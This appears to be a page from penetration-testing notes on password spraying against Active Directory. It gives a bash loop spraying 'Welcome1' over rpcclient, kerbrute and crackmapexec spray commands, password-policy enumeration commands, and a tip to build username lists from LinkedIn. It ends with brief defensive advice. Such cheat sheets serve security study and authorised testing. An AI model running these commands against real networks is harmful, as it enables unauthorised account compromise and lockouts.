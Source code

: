 After successfully obtaining usernames that are in use by employees it's possible for us to perform password spray attack. It's important to note that the username are usually formatted with the first character of the first name and the whole last name.

> [!TIP]
> Nowadays all employees shares the places they are working at in LinkedIn and that allows us to collect first name and last name of many employees and then craft a username list using [LinkedIn2Username](https://github.com/initstring/linkedin2username)

## Password Spraying

Password Spraying is a technique that consists of sending a single password to multiple of users. This is especially useful after obtaining usernames from the [[0002 Attacking Active Directory#Username Spraying|Username Spraying]] section as it allows us to spray commonly used passwords against valid usernames.

```shell title="Password Spray Script"
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

```shell title="Password Spraying"
# Kerberos: Password Spray
kerbrute passwordspray -d '<DOMAIN-NAME>' --dc '<DC-IP>' '<USERNAME-LIST>' '<PASSWORD>'

# Crackmapexec: Password Spray
crackmapexec smb '<DC-IP>' -u '<USERNAME-LIST>' -p '<PASSWORD>' | grep +

# Crackmapexec: Password Spraying local users
crackmapexec smb '<DC-IP>' --local-auth <IP>/23 -u '<USERNAME>' -H '<HASH>' | grep +
```

It's important to remember that in some environment there are password policies implemented to prevent password spray attacks which could lead to accounts being locked out after multiple of failed login attempts. It's possible for us to obtain these policies by using the following commands.

```shell  title="Password Policy"
# RPCClient: Getting password policy
rpcclient -U '' -N '<RHOST>'
querydominfo

# Enum4Linux: Getting password policy
enum4linux-ng -P '<RHOST>' -oA '<OUTPUT-FILENAME>'

# LDAPSearch: Getting password policy
ldapsearch -h '<RHOST>' -x -b 'DC=<DOMAIN-NAME>,DC=LOCAL' -s sub '*'
ldapsearch -h '<RHOST>' -x -b 'DC=<DOMAIN-NAME>,DC=LOCAL' -s sub '*' | grep -m 1 -B 10 pwdHistoryLength

# PowerView: Getting password policy
Import-Module .\PowerView.ps1
Get-DomainPolicy
```

 The most effective way  to protect the organization from password spray attack is by implementing least privileges, strong password policies, and enforcing multi-factor authentication. If the organization has a-lot of money to spend than it's worth investing in a SIEM system.
